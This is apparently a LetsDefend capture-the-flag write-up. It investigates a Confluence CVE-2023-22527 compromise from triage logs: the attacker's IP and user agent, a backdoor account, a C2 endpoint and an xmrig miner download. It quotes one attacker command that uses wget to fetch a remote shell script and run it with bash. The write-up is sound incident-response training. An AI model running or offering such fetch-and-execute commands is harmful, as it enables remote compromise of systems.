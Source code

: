 # [LetsDefend - Confluence CVE-2023-22527](https://app.letsdefend.io/challenge/confluence-cve-2023-22527)
Created: 19/06/2024 15:38
Last Updated: 19/06/2024 17:20
* * *
<div align=center>

**Confluence CVE-2023-22527**
![84004c7a69c89b8da0a3ab8ea9598be6.png](../../_resources/84004c7a69c89b8da0a3ab8ea9598be6-1.png)
</div>

Confluence is used by many organizations. Our organization was recently targeted and we need your expertise to help us recover from this incident. Our defense tools raised an alert about a crypto miner tool in the Confluence related directory, which led sysadmins to believe that this incident was initiated from Confluence.

You are given a triage archive image, collected via UAC(unix-like artifact collector) tool.

**File Location**: /root/Desktop/ChallengeFile/uac-ip-172-31-35-28-linux-20240125122358.zip

* * *
## Start Investigation

CVE-2023-22527 is Server Template Injection Vulnerability that resulted in Unauthenticate Remote Code Execution at `/template/xhtml/pagelist.vm` endpoint, you can read about this [vulnerability](https://www.trendmicro.com/en_th/research/24/b/unveiling-atlassian-confluence-vulnerability-cve-2023-22527--und.html) here

>What is the URI path which is vulnerable to the CVE?

![49de9e7cc880f85bdf88a1d68f1cc506.png](../../_resources/49de9e7cc880f85bdf88a1d68f1cc506.png)

UAC stores files from system within `[root]` directory

![5bcc47e640c08156d78cd85600c88be2.png](../../_resources/5bcc47e640c08156d78cd85600c88be2.png)

Then we can find confluence log using `find . -type f -name "*access*"` and the one we're going to investigate is `/opt/confluence/logs/conf_access_log.2024-01-25.log`

![94e18484fb1e8d4ae5d8e8245d09e49e.png](../../_resources/94e18484fb1e8d4ae5d8e8245d09e49e.png)

and we can see that this familiar endpoint was exploited, now we got an user-agent of an attacker and his IP address

```
/template/aui/text-inline.vm
```

>When did the attacker first exploit this vulnerability? (Answer Format: YYYY-MM-DD HH:MM:SS)

![ec7fb66fd46ad756c015635b84904440.png](../../_resources/ec7fb66fd46ad756c015635b84904440.png)

Using an attacker IP address to filter for all traffics coming from this IP address and the first record is the one we're looking for 

```
2024-01-25 11:41:26
```

>What is the attacker's remote IP Address?
```
3.110.176.89
```

>Analyze the Sysmon for Linux logs and identify the first command executed by the attacker.

![81da97ded9f5bd17363f891046460e7b.png](../../_resources/81da97ded9f5bd17363f891046460e7b.png)

Go to  `/[root]/var/log` and use `grep "confluence" syslog > confluence.txt && head confluence.txt` to find all activities from "confluence" user that was logged in `syslog` which you can see that the first command that was executed is `id` 

```
id
```

>What time did the attacker first enumerate directories on the compromised system? (Answer Format: YYYY-MM-DD HH:MM:SS)

![a9e10c387348432dc79ec09c7e6153c6.png](../../_resources/a9e10c387348432dc79ec09c7e6153c6.png)

Investigate text file that was created from previous question and you can see that `ls -la` (listing directory) was executed after the first command by 2 minutes

```
2024-01-25 11:43:33
```

>The attacker tried to execute remote commands to get a more stable shell, but apparently failed many times. Analyzing the Confluence log sources, can you find the command he/she executed around 2024-01-25 11:50:50 that errored out?

![35416b3cb7d688dbf754f5875c53042f.png](../../_resources/35416b3cb7d688dbf754f5875c53042f.png)

Go to `/[root]/var/confluence-home/logs` and you can see that there are several log files here but the one that we're going to use is `atlassian-confluence.log`

![757506303bca9a2125d23b51ce38f9d3.png](../../_resources/757506303bca9a2125d23b51ce38f9d3.png)

Then we can use `grep "11:50:50" atlassian-confluence.log` to find which command was sent to be executed at the time.

```
wget http://3.110.176.89/lin/6730789213.sh;chmod  x 6730789213.sh; bash 6730789213.sh
```

>User agents are a useful source of information and can be used for analysis. What user agent was the attacker using?

![c4aa2c61e64dac59b1e82bf296ba7cb4.png](../../_resources/c4aa2c61e64dac59b1e82bf296ba7cb4.png)
```
python-requests/2.28.2
```

>It appears that the attacker was able to download a bash script and then execute it to get a stable shell. What is the full path of this file? (Answer Format: /path/file.extension)

![31274f7b6f5134819f60d485a7b23795.png](../../_resources/31274f7b6f5134819f60d485a7b23795.png)

I searched shell script extension on `syslog` and found that it was downloaded using curl and saved to `tmp` directory

![c770e76b5ccc03ada9ecd1ad757027f9.png](../../_resources/c770e76b5ccc03ada9ecd1ad757027f9.png)

Other way to find this is to read content of `/live_response/process/pstree_-a.txt` 

```
/tmp/xxx.sh
```

>What is the size in bytes of the bash file detected earlier?

![2b65f117b4b50bbf7f751fca86a90b37.png](../../_resources/2b65f117b4b50bbf7f751fca86a90b37.png)

We couldn't get file size from a file itself

![111b4a0312607dee5d08ade96b6cc48b.png](../../_resources/111b4a0312607dee5d08ade96b6cc48b.png)

But we need to use `grep "xxx" /bodyfile/bodyfile.txt` to get file size that was logged using UAC

```
68855
```

>Analyzing the network connections from the triage output, what is the C2 IP address and port that the attacker connected to? (Answer Format: IP:PORT)

![d96db4e1a00b3333a3bef549813f0fe0.png](../../_resources/d96db4e1a00b3333a3bef549813f0fe0.png)

Read content of `xxx.sh` then we will see which port that was used to connect to an attacker listener port

```
3.110.176.89:1200
```

>What is the SHA1 hash of the bash script found in Question 8?

![6c6dffa35824ff1579bc3c4ff3403142.png](../../_resources/6c6dffa35824ff1579bc3c4ff3403142.png)

Easily obtain by using `sha1sum xxx.sh`

```
9ac4d3459093aac9ee4bb3b87fdeaaaa3c5bd551
```

>Attackers create new privileged user accounts for backdoor access. What is the username of the backdoor account created by the attacker?

![7a68083c7f90c3e7793adfde02080bc1.png](../../_resources/7a68083c7f90c3e7793adfde02080bc1.png)

Go to `[root]/var/log/` then we will use `grep "useradd" auth.log` to find all activities from `useradd` binary

```
confluence_servcie
```

>When was this backdoor account created? (Answer Format: YYYY-MM-DD HH:MM:SS)
```
2024-01-25 12:15:42
```

>The attacker downloaded a miner tool before being detected. What is the full path of this miner archive file?

![e025aedcd0a50dc7806f6530442f068d.png](../../_resources/e025aedcd0a50dc7806f6530442f068d.png)

We know that an attacker used either `curl` or `wget` to download file so I used `grep "root" syslog | grep "wget"` to get this answer

```
/opt/confluence/xmrig-6.16.4-linux-static-x64.tar.gz
```

* * *
## Summary

On this challenge, we investigated confluence logs and syslog to determine source of attacks and how an attackers got reverse shell connection to infected IP address 

<div align=center>

![f450d57da6ef1cbc644b3f750a638333.png](../../_resources/f450d57da6ef1cbc644b3f750a638333.png)
</div>

* * *
